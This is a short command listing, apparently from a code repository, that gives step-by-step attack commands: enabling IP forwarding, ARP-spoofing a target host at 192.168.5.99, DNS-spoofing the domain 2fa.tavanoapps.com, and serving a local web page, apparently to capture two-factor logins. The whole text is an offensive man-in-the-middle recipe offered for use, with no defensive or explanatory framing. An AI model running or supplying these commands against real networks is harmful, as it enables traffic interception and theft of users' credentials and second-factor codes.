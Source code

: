 Perform ARP spoofing attack:

	- echo 1 > /proc/sys/net/ipv4/ip_forward

	- set arp.spoof.targets 192.168.5.99

Perform DNS spoofing attack:

	- set dns.spoof.domains 2fa.tavanoapps.com
	- set dns.spoof.all true
	- dns.spoof on

Active web server:

	- set http.server.path /var/www/html
	- http.server on
